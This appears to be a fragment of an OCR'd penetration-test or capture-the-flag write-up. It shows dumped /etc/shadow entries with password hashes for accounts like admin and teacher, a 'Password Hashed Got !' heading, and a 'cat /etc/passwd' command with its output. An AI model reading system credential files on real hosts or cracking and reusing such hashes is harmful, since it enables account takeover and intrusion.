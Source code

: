     # admin:$6$1rr7BCWK$z7ImwxlxPGPUFeLqOGOt4xrQvQjum7Lse0oOUav0HsBJ33uAe0A66OLWKqKd9h6N2y/K5sxJZ/geTeY8cFNfm1:16665:0:99999:7:::
    # lessons:$6$b6M8xaml$yVuLM8L1QhJH1cTMIRta3ySx645tx.fpOkRkTXGrjREB5pX7BljnPt6BdAhaxs/mCetloCXjLh2iUbAVbQvfg0:16665:0:99999:7:::
    # share:$6$Rexp1nDA$qbddPOOnWLhlhSRB9mh0zVOumKG/ZyAOYep.p7I3qefyeSKRAQbbvN7XA3nOE2gQd/F4jCc6cu2yEqJSAPK1Z0:16665:0:99999:7:::
    # upgrade:$6$3f0Mb485$2uLmNL0M7eEc6aRYQznhsedcr/JcwDY90gTtGmyKR.RAI.8n1hNPHluJ78X4xuv2myJP9LGtXcaPhvU9gvLNP.:16665:0:99999:7:::
    # postgres:!!:16665:::::: 
    # tomcat:!!:16665:::::: 
    # teacher:$6$2KKOchqB$lj4FlSqDWLQL.K0UqrxFHLxt6JrMen3Ig2hfQjZqG5F3KctWpd9u8XXEBdjyPhn88Fj0bNdLA.L0w8fq6fKOW/:16665:0:99999:7:::
    # dhcpd:!!:16665:::::: 
    # ntp:!!:16665:::::: 
    # mysql:!!:16665:::::: 
    # apache:!!:16665:::::: 
- - - - - - -   


## ** Password Hashed Got ! **


- - - - - - -
    > cat /etc/passwd
    # root:x:0:0:root:/root:/bin/bash 
    # bin:x:1:1:bin:/bin:/sbin/nologin 
    # daemon:x:2:2:daemon:/sbin:/sbin/nologin 
    # adm:x:3:4:adm:/var/adm:/sbin/nologin 
    # lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin 
    # sync:x:5:0:sync:/sbin:/bin/sync 